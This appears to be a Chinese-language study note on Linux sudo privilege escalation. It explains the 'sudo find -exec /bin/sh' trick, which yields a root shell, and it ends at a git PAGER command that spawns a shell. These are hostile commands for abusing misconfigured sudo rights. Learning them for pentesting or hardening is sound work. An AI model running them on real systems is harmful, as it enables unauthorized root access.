 

```
sudo <command>
```

以sudo执行命令



```
sudo -u <username> <command>
```

以其他用户身份执行命令（通常适用于执行非root用户的sudo命令）





# 命令

## find

```
sudo find . -exec /bin/sh \; -quit
```

### 分析

将find命令和-exec操作结合，来查找当前目录下的文件并对每个文件执行/bin/sh

-exec /bin/sh \; 解析：

- -exec 是 find 命令的一个选项，用来对每个符合条件的文件执行一个外部命令

- /bin/sh 是要执行的命令，这里执行的是系统上默认的shell /bin/sh

- \; 用来结束-exec 选项中的命令。由于分号 ； 在shell中是特殊字符，所以需要用反斜杠 \ 来转义它

### 功能

从当前目录开始，递归的搜索所有文件和子目录

对每个找到的文件执行/bin/sh

因为是以sudo执行的find，意味着它将以文件的所有者（通常为root）身份执行/bin/sh。这时，这个命令的行为就不止是打开一个普通的shell，它将一root权限执行/bin/sh，这就能为用户提供一个具有root权限的交互式shell





## git

### 1

```
sudo PAGER='sh -c "exec sh 0<&1"' git -p help
```

